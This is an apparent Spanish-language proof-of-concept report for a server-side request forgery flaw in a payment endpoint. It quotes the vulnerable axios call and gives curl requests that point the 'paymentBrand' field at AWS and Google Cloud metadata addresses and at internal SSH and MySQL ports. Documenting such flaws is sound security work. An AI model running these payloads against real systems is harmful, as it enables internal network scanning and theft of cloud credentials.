 # Prueba de Concepto - Server Side Request Forgery (SSRF)

## Vulnerabilidad encontrada
El endpoint de procesamiento de pagos hace peticiones HTTP sin validación del host.

**Archivo vulnerable:** `services/backend/src/services/invoiceService.ts:65`
```typescript
const paymentResponse = await axios.post(`http://${paymentBrand}/payments`, {
  ccNumber,
  ccv,
  expirationDate
});
```

## Cómo explotar

### Paso 1: Obtener token de autenticación
```bash
curl -X POST http://localhost:5000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username": "test", "password": "password"}'
```

### Paso 2: Probar acceso a servicios internos
```bash
curl -X POST "http://localhost:5000/invoices/test-invoice/pay" \
  -H "Authorization: Bearer TU_TOKEN_AQUI" \
  -H "Content-Type: application/json" \
  -d '{
    "paymentBrand": "localhost:22",
    "ccNumber": "4111111111111111",
    "ccv": "123",
    "expirationDate": "12/25"
  }'
```

### Paso 3: Acceder a metadatos de AWS
```bash
curl -X POST "http://localhost:5000/invoices/test-invoice/pay" \
  -H "Authorization: Bearer TU_TOKEN_AQUI" \
  -H "Content-Type: application/json" \
  -d '{
    "paymentBrand": "169.254.169.254/latest/meta-data/",
    "ccNumber": "4111111111111111",
    "ccv": "123",
    "expirationDate": "12/25"
  }'
```

### Paso 4: Acceder a servicios de Google Cloud
```bash
curl -X POST "http://localhost:5000/invoices/test-invoice/pay" \
  -H "Authorization: Bearer TU_TOKEN_AQUI" \
  -H "Content-Type: application/json" \
  -d '{
    "paymentBrand": "metadata.google.internal/computeMetadata/v1/",
    "ccNumber": "4111111111111111",
    "ccv": "123",
    "expirationDate": "12/25"
  }'
```

### Paso 5: Escanear puertos internos
```bash
# Puerto SSH
curl -X POST "http://localhost:5000/invoices/test-invoice/pay" \
  -H "Authorization: Bearer TU_TOKEN_AQUI" \
  -H "Content-Type: application/json" \
  -d '{
    "paymentBrand": "localhost:22",
    "ccNumber": "4111111111111111",
    "ccv": "123",
    "expirationDate": "12/25"
  }'

# Puerto MySQL
curl -X POST "http://localhost:5000/invoices/test-invoice/pay" \
  -H "Authorization: Bearer TU_TOKEN_AQUI" \
  -H "Content-Type: application/json" \
  -d '{
    "paymentBrand": "localhost:3306",
    "ccNumber": "4111111111111111",
    "ccv": "123",
    "expirationDate": "12/25"
  }'
```

## Resultado esperado
- El servidor intenta conectarse a los hosts especificados
- Se pueden acceder a servicios internos no expuestos
- Se pueden extraer metadatos de servicios en la nube
- Se puede escanear la red interna

## Impacto
- Acceso a servicios internos no expuestos
- Extracción de metadatos de servicios en la nube
- Bypass de firewalls internos
- Escaneo de red interna
- Posible acceso a credenciales de servicios

